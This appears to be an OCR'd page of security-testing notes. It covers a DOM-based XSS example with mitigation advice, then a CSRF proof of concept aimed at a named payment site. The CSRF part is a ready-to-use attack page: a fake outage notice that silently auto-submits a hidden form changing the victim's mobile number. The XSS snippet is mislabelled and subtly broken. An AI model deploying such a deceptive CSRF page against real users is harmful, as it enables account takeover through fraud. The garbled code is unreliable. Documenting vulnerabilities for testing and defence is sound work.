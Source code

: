 ```php
}


document.addEventListener('DOMContentLoaded', () => {
  const tabLinks = document.getElementsByClassName('tablink');

  tabLinks.forEach(link => {
    link.addEventListener('click', (event) => {
      location.search = `?filter=${event.target.innerText}`;
    });
  });

  refreshTab();
});
```

	- Mitigation --> 
	```text
		To effectively mitigate against Document Object Model (DOM) based cross-site scripting vulnerabilities, developers must sanitize all untrusted data that is dynamically injected into the DOM.



	For example, if client-side JavaScript is used to manipulate the content, structure, or style of a document's DOM element with user-supplied data, such input strings must be sanitized (encoded or escaped) for safe insertion into a document's DOM. 



	Additionally, DOM objects that may be influenced by the user (attacker) should be carefully reviewed and escaped, including (but not limited to):



	document.URL
	document.URLUnencoded
	document.location (and child properties)
	document.referrer
	window.location (and child properties)
	``` 

> https://guest.application.security/exercises/225

* CSRF :- 

  - CSRF POC -> Login -> Change phone number -> No CSRF token 
```html
<html>
<body>

<h1>We’re currently experiencing technical difficulties.</h1>
<h2>This has impacted our website, Contact Center and Live Chat Teams. We are aiming to have this fixed as soon as possible. We sincerely apologies for any inconvenience caused.</h2>
<p>In the meantime head to our Help & Support page. For more information contact our Live Chat team but please be aware team have limited functionality at present.</p>

<button>VISIT HELP & SUPPORT</button>

<iframe style="display:none" name="csrf-frame"></iframe>
<form method="POST" action="https://www.sparkpay.com/customerprofile/phone/update" target="csrf-frame" id="csrf-form">
  <input type="hidden" name="mobile" value="07739364408">
</form>
<script>document.getElementById("csrf-form").submit();</script>

</body>
</html>
```
